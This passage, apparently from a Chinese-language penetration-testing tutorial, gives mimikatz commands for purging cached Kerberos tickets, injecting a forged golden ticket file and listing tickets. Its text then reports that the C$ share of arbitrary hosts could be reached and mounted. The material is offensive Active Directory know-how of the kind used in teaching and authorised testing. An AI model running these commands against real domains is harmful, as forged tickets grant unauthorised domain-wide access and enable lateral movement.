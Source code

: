 
```bash
# 清除缓存的票据
kerberos::purge

# 注入黄金票据 test.kiribi
kerberos::ptt test.kiribi

# 列出票据
kerberos::list
```

![](img/1.png)

尝试访问任意 IP 的c目录。 发现访问成功。

尝试挂载到自己盘下执行成功。




